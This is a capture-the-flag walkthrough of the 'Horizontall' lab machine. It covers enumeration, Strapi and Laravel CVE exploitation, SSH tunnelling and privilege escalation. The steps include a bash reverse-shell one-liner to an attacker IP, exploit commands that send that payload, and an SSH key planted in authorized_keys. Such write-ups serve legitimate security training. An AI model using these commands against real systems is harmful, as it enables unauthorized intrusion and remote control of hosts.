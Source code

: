 1. Run Nmap to scan any open ports and services from the web.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e168f3ae-fdca-40c6-a64c-4a4cf64ed6c0)

2. Open the ip address in the browser and it directs to horizontall.htb. I add it to /etc/hosts/ so I can open it.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/fa4cf0d4-22af-4da5-8d5b-e704b4493a39)

Website:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/777e5607-7645-40ec-af91-af3bcfbdf6d0)

3. The feature isn't showing any interesting things. Next things is check the source code and I found a unique js file.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e0940e2b-5f55-446b-9e1f-fd33608cff5e)

Content: <br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/4200360b-ca33-4ddd-a525-af725b5feb74)

4. We can beautify with this [tool](https://beautifier.io/) and found a new api endpoint.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/b6547f97-6b75-4ed9-b248-5c5649ded97c)

5. Add the new endpoint to /etc/hosts/ to open it.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e140aac3-a94e-4c08-aedf-07b1878bbc6c)

Website: <br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/aad03eb2-afb9-4da1-b1c1-38927f3db72c)

6. Use feroxbuster to find any interesting directories. There I interested about admin directory.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/7705d94a-dcdc-435d-b000-f9e71f2edd48)

7. When I opened, it shows strapi login page.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/5a0c5c8b-05f8-418d-aa02-a5d0741415d0)

8. Check the version in **/admin/init** and the version is 3.0.0-beta.17.4.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/ef79f371-d2cb-460d-a1be-e0135cd36629)

9. Googling for any strapi 3 vulnerability and found in this [link](https://www.exploit-db.com/exploits/50239)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/51d2fddb-24f3-4f1d-9e60-4ecb33f0292c)

10. I use the payload from that link and get the shell, but it returns error.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/ffaba9bc-9330-4947-be15-c2d62cfc5b63)

11. Okay, I try to execute reverse shell with this [tool](https://www.revshells.com/)

Payload:<br>
bash -c 'bash -i >& /dev/tcp/10.10.14.8/777 0>&1'

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1abb246c-695f-4324-b53a-1fd335f7bc29)

Host:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e6895636-9c7c-4ab3-97f0-fb5a8f163d04)

12. It works! the flag can be found in **/home/developer/user.txt**.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/ca080e46-3b76-45a0-96cd-91efe3cfd8af)

13. For the root, my first guess is admin account. 
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d5dfe2a1-9c92-4927-bdad-1af36492b26a)

14. I see this page when logged in and nothing interesting in there.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/26a94265-8664-4cd8-884d-0ff53dcf36bf)

15. Let's check the network that are running inside the web server using netstat.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/bfcfc9e0-cbb4-4374-b3d5-c56dc6bf222b)

16. Using curl to see what respons will return and I discover that the web using laravel for their backend.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/acbe2dc6-d6b2-47b1-88f7-3d1e8ed00b9e)

17. To access the localhost, we need to do ssh tunneling. First we can create a new key named strapi.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d1579a62-ac52-42bf-b413-1cb73d7e38d8)

18. Using echo to insert the key to target terminal where it stored in **~/.ssh/authorized_keys**.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/a4c6572e-1d54-4033-a86b-d97ca820ff90)

19. Now, I can do ssh tunneling with strapi key and for the target I want to take localhost:8000 so I add `8000:localhost:8000` in my command.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/bc26e6f9-bade-4006-918c-6010d8cb20d3)

Website:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/73406f49-fdfa-46c5-8681-140ea29aa6eb)

20. I use feroxbuster again for scanning directories localhost:8000 and found profiles directory.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d82a0488-eda1-4879-aec6-06346361cd78)

21. When I opened, it only shows error.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/701ea246-aff2-4af8-9734-b51b0a6458c1)

22. So I searching laravel 7.4.18 vulnerabilities and found this [link](https://www.exploit-db.com/exploits/49424) (most relevant).
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/bfc8880f-6458-47c3-a890-d93e0c7157ce)

23. Searching again for the payloads and found this amazing [payload](https://github.com/nth347/CVE-2021-3129_exploit/blob/master/exploit.py).

Run:<br>
`./exploit.py http://localhost:8000 Monolog/RCE1 id`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/4b9b581b-3984-499a-994c-5469a70d9f8c)

24. It works! Now I change the id command with previous reverse shell payload.

Run:<br>
`./exploit.py http://localhost:8000 Monolog/RCE1 'bash -c "bash -i >& /dev/tcp/10.10.14.8/777 0>&1"'`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1e29bf63-4555-494b-8b94-24a7b2563819)

Host:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/386a20da-85df-4c58-910c-52a520343750)

25. The root flag is in **/root/root.txt**.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e4f06518-68ce-405f-ba5f-94b54c7c8b57)





